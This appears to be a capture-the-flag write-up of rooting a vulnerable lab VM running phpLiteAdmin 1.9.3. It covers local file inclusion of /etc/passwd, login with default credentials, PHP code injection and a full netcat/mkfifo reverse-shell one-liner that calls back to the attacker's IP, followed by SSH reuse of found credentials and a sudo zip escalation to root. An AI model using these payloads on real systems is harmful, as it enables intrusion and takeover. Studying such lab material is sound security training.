**Enumeration** 
find ip target 
command: netdiscover -r 192.168.1.0/24
ip attacker: 192.168.1.128
ip target: 192.168.1.131



scan service and version target
command: nmap -sV 192.168.1.131
found 22 ssh,80 http, 111 rpc



**Web Enumeration**
http://192.168.1.131

http://192.168.1.131/view.php?page=tools.html
this page query file for show on website



http://192.168.1.131/asdsad
random path for check error response
information from error : apache/2.2.22 (Ubantu)
The target machine appears to be running Ubuntu Linux.  
Web files are commonly stored under the `/var/www` directory, for example:
- /var/www/tools.html
- /var/www/index.html



Directory traversal testing showed that the application did not properly sanitize user input.  
Since `../../` resolves to the root (`/`) directory, the `/etc/passwd` file was targeted as part of basic Local File Inclusion verification

 http://192.168.1.131/view.php?page=../../etc/passwd
 
 Successful disclosure of `/etc/passwd` confirmed the presence of an LFI vulnerability.


Directory enumeration was performed using DIRB and the `big.txt` wordlist in order to identify hidden endpoints and accessible resources
command: dirb http://192.168.1.131/ -w /usr/share/wordlists/dirb/big.txt

found http://192.168.1.131/dbadmin



http://192.168.1.131/dbadmin


http://192.168.1.131/dbadmin/test_db.php

The target was running phpLiteAdmin version 1.9.3, which is outdated.  
Default credentials (`admin:admin`) were identified from publicly available documentation, and the version is known to have associated security exploits.



Login to phpLiteAdmin was achieved using default credentials (`admin:admin`).  
Further enumeration of the database revealed user records
user=zico,root
pass=hash


Further research on phpLiteAdmin v1.9.3 revealed a known Remote Code Execution (RCE) vulnerability via PHP code injection.

The vulnerability allows an attacker to create a database and leverage the application’s file handling mechanism to place a malicious PHP file on the server. The destination path is influenced by an application-controlled directory variable, which can be abused to write files into the web-accessible directory.





follow exploit create database ep5.php
create table field=1 Type=TEXT DefaultValue = <?php phpinfo()?>

from LFI : http://192.168.1.131/view.php?page=../../usr/databases/ep5.php

Upon execution, the injected payload (`<?php phpinfo()?>`) was processed by the server, resulting in successful code execution and disclosure of PHP environment information via the `phpinfo()` output.

This confirms the presence of Remote Code Execution on the target system.



After achieving Remote Code Execution on the target via phpLiteAdmin, a reverse shell was established in order to gain interactive access to the system.

A listener was set up on the attacker machine
command: nc -lvnp 1234

create new table and defaultValue use payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 1234 >/tmp/f;

create table field=1 Type=TEXT DefaultValue = <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 1234 >/tmp/f;")?>

refresh http://<ip>/view.php?page=../../usr/databases/ep5.php

Since traditional Netcat variants were limited on the target, a named pipe (FIFO) based technique was used to stabilize the shell and redirect input/output streams. This allowed an interactive reverse shell connection back to the attacker machine.

Once executed, the target system initiated a connection back to the attacker, resulting in successful shell access.



check permission
comand: whoami
www-data not root

Enumeration of user directories revealed a single user account `zico` under `/home`.  
The ownership and permissions indicate a standard user environment, which may contain sensitive files or misconfigurations that could be leveraged for privilege escalation.

from wp-config.php
user=zico
pass=xxxxxxxx





During post-exploitation enumeration, sensitive configuration files were discovered, including `wp-config.php`.  
This file contained database credentials associated with the application.

The extracted credentials were:

- Username: `zico`
- Password: `xxxxxxxx`

These credentials were then reused for system access via SSH
command: ssh zico@192.168.1.131
pass=xxxxxxxx



This misconfiguration allows the user `zico` to execute specific binaries with root privileges without authentication, which can be leveraged to escalate privileges to root.



The binary `/usr/bin/zip` was identified as executable with `sudo` privileges without a password.  
According to GTFOBins, this binary can be abused to spawn a shell when executed with elevated privileges.



Exploitation of this misconfiguration resulted in successful privilege escalation to root.



